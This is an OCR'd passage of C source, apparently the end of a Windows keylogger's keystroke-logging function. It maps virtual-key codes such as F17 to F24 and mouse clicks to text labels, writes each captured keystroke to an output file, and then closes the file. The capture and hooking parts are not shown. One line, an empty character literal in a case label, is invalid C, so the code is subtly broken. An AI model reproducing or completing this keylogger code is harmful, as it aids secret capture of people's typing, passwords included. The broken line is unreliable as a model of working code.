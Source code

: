         fprintf(OUTPUT_FILE, "[F17]");
        break;
    case VK_F18:
        fprintf(OUTPUT_FILE, "[F18]");
        break;
    case VK_F19:
        fprintf(OUTPUT_FILE, "[F19]");
        break;
    case VK_F20:
        fprintf(OUTPUT_FILE, "[F20]");
        break;
    case VK_F21:
        fprintf(OUTPUT_FILE, "[F21]");
        break;
    case VK_F22:
        fprintf(OUTPUT_FILE, "[F22]");
        break;
    case VK_F23:
        fprintf(OUTPUT_FILE, "[F23]");
        break;
    case VK_F24:
        fprintf(OUTPUT_FILE, "[F24]");
        break;
    case VK_LBUTTON:
        fprintf(OUTPUT_FILE, "[lClick]");
        break;
    case VK_RBUTTON:
        fprintf(OUTPUT_FILE, "[rClick]");
        break;
    case '':
        // [UNKNOWN character ]
        break;

    default:
        fprintf(OUTPUT_FILE, "%c", key_stroke);
        break;
    }

    fclose(OUTPUT_FILE);
    return 0;
}
